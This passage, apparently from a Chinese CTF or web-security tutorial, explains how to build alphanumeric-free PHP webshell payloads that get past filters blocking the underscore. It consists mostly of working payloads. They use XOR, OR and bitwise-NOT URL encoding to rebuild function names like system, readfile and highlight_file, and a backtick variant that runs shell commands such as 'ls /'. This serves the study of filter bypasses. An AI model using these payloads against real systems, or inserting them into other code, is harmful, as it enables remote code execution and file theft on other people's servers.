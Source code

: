 ### 无数字字母webshell之字符被过滤

#### \_ 被过滤

在前文中我们可以看到，很多 Payload 的构造都用到了下划线`_`作为变量名。但即便是下划线`_`被过滤了，我们也根本无需担心，因为我们本就可以不用`_`。

- **比如我们前面的像下面那几种 Payload 就没有用到`_`：**

```php
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08%00%00"^"%60%7b%20%2f");//xor
("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%0c%13%00%00"|"%60%60%20%2f");//or
(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);//URL取反
```

- **再来看看另一个师傅用过这样的 Payload，也可以绕过，而且效果极好：**

```php
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

解释一下这个师傅的绕过手法：

```php
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo

即: 
${_GET}{%ff}();&%ff=phpinfo//?shell=${_GET}{%ff}();&%ff=phpinfo
```

> 先解释一下这里的%ff：
> 
> 任何字符与 0xff 异或都会取相反，这样就能减少运算量了。 注意：测试中发现，传值时对于要计算的部分不能用括号括起来，因为括号也将被识别为传入的字符串，可以使用`{}`代替，原因是 PHP 的 use of undefined constant 特性。例如`${_GET}{a}`这样的语句 PHP 是不会判为错误的，因为`{}`是用来界定变量的，这句话就是会将`_GET`自动看为字符串，也就是`$_GET['a']`。`${_GET}{%ff}`后面那个`()`为的是能够动态执行传入的 PHP 函数。

如果想要执行带参数的函数比如`system('whoami')`，那我们可以对后面括号里的参数做相同的编码处理：

```php
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff^%88%97%90%9E%92%96);&%ff=system
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff%ff%ff^%99%93%9E%98%D1%8F%97%8F);&%ff=readfile
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff%ff%ff^%99%93%9E%98%D1%8F%97%8F);&%ff=highlight_file

// 即: 
// ${_GET}{%ff}('whoami');&%ff=system
// ${_GET}{%ff}('flag.php');&%ff=readfile
// ${_GET}{%ff}('flag.php');&%ff=highlight_file
```

同理，我们也可以直接进行取反：

```php
${~%A0%B8%BA%AB}{%ff}();&%ff=phpinfo
${~%A0%B8%BA%AB}{%ff}(~%88%97%90%9E%92%96);&%ff=system
```

**此外，继承于上述原理，我们还可以直接使用反引号执行命令：**

```php
?><?=`{${~%A0%B8%BA%AB}{%ff}}`?>&%ff=ls /
```
